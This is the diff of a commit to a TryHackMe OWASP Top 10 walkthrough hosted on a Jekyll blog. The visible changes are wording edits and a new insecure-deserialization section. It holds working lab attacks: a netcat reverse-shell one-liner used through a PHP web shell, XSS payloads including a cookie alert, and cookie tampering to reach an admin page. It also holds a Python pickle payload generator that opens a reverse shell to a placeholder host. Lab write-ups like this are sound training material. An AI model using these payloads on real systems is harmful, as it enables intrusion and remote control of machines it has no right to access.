

Before and after one commit to 4n3i5v74/4n3i5v74.github.io, a Jekyll site: the page built from _posts/2021-02-10-tryhackme-owasp-top-10.md, in a window 1280 px wide and 1400 px high, scrolled down 9858 px, cut to the strip 0-1332 px from the top of the window. Shown: the whole strip at 84% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Modified

```diff
--- a/_posts/2021-02-10-tryhackme-owasp-top-10.md
+++ b/_posts/2021-02-10-tryhackme-owasp-top-10.md
@@ -43,7 +43,7 @@
 Use `http://<ip>/evilshell.php` to access the php based web shell. Any linux commands can be executed, like `whoami`, `uname -a`, `id`, `ifconfig`, `ps -ef`, or windows commands can be executed, like `whoami`, `ver`, `ipconfig`, `taslist`, `netstat -an`.
 
 A reverse shell can also be spawned. A `netcat` listener can be spawned as below.
-{% capture code %}{% raw %}nc -lnvp 4444{% endraw %}{% endcapture %} {% include code.html code=code summary=NetCat-Command %}
+{% capture code %}{% raw %}nc -lnvp 4444{% endraw %}{% endcapture %} {% include code.html code=code %}
 
 In the url `http://<ip>/evilshell.php`, use the below command to spawn a reverse shell.
 {% capture code %}{% raw %}mkfifo /tmp/p ; nc <remote-ip> 4444 0</tmp/p | /bin/sh -i 2>&1 | tee /tmp/p{% endraw %}{% endcapture %} {% include code.html code=code %}
@@ -280,15 +280,64 @@
 
 Use `firefox` to change default browser's XSS protection mode. Change the setting `browser.urlbar.filter.javascript` to `false` in `about:config` settings page.
 
-Use `firefox` to load the url `http://<ip>` and select `Reflected XSS` tab. Use the payload `(<script>alert("Hello")</script>)` to get the popup `Hello` and the flag.
+Load the url `http://<ip>` and select `Reflected XSS` tab. Use the payload `(<script>alert("Hello")</script>)` to get the popup `Hello` and the flag.
 
-Use `firefox` to load the url `http://<ip>` and select `Reflected XSS` tab. Use the payload `(<script>alert(window.location.hostname)</script>)` to get the popup `<ip>` and the flag.
+Load the url `http://<ip>` and select `Reflected XSS` tab. Use the payload `(<script>alert(window.location.hostname)</script>)` to get the popup `<ip>` and the flag.
 
-Use `firefox` to load the url `http://<ip>` and select `Stored XSS` tab. Register for a dummy account. Use the payload `<h3>Testing</h3>` in comments section to get the comment appended and the flag.
+Load the url `http://<ip>` and select `Stored XSS` tab. Register for a dummy account. Use the payload `<h3>Testing</h3>` in comments section to get the comment appended and the flag.
 
-Use `firefox` to load the url `http://<ip>` and select `Stored XSS` tab. Use the payload `<script>alert(document.cookies)</script>` in comments section to get the popup `cookie` and the flag.
+Load the url `http://<ip>` and select `Stored XSS` tab. Use the payload `<script>alert(document.cookies)</script>` in comments section to get the popup `cookie` and the flag.
 
-Use `firefox` to load the url `http://<ip>` and select `Stored XSS` tab. Use the payload `<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>` in comments section to change the value of header tag id `thm-title` to `I am a hacker` and get the flag.
+Load the url `http://<ip>` and select `Stored XSS` tab. Use the payload `<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>` in comments section to change the value of header tag id `thm-title` to `I am a hacker` and get the flag.
 
 
 ## Task 21 - [Severity 8] Insecure Deserialization
+
+Insecure deserialization is replacing data processed by an application with malicious code, allowing anything from DoS (Denial of Service) to RCE (Remote Code Execution) to gain a foothold. The malicious code leverages the legitimate serialization and deserialization process used by web applications. Any application that stores or fetches data where there are no validations or integrity checks in place for the data queried or retained are vulnerable.
+
+
+## Task 25 - [Severity 8] Insecure Deserislization - Cookies Practical
+
+Use `firefox` to load the url `http://<ip>`. Register using dummy credentials and login to the application.
+
+Inspect the page to read the cookie values from `storage` tab. Decode the `Session ID` from the cookie value, from `base64` using `cyberchef`, to get the flag.
+
+From the `inspect page` section and `storage` tab, rename the `usertype` value from `user` to `admin`. Load the url `http://<ip>/admin` to view admin dashboard and get the flag.
+
+
+## Task 26 - [Severity 8] Insecure Deserislization - Code Execution
+
+Use these links as references.
+- [RCE - Python Pickle](https://gist.github.com/CMNatic/af5c19a8d77b4f5d8171340b9c560fc3){:target="_blank"}
+
+
+Create a python script from above url. Replace `IP` and `port` to local resources.
+{% capture code %}import pickle
+import sys
+import base64
+
+command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat <ip> <port> > /tmp/f'
+
+class rce(object):
+    def __reduce__(self):
+        import os
+        return (os.system,(command,))
+
+print(base64.b64encode(pickle.dumps(rce()))){% endcapture %} {% include code.html code=code %}
+
+Run the script `python rce.py` to generate payload.
+
+Use `netcat` to create a listener for payload.
+{% capture code %}nc -lnvp 4444{% endcapture %} {% include code.html code=code %}
+
+Use `firefox` to load the url `http://<ip>`. Register using dummy credentials and login to the application.
+
+Inspect the page to read the cookie values from `storage` tab. Replace the value of `encodedPayload` with previously generated payload. Reload the url to gain shell from `netcat` listener session.
+
+Find the file `flag.txt` from the shell and read its contents to get the flag.
+{% capture code %}find / -name flag.txt -type f 2>/dev/null
+cat <flag.txt>
+  <flag>{% endcapture %} {% include code.html code=code %}
+
+
+* Task 27 - [Severity 9] Components With Known Vulnerabilities - Intro
```
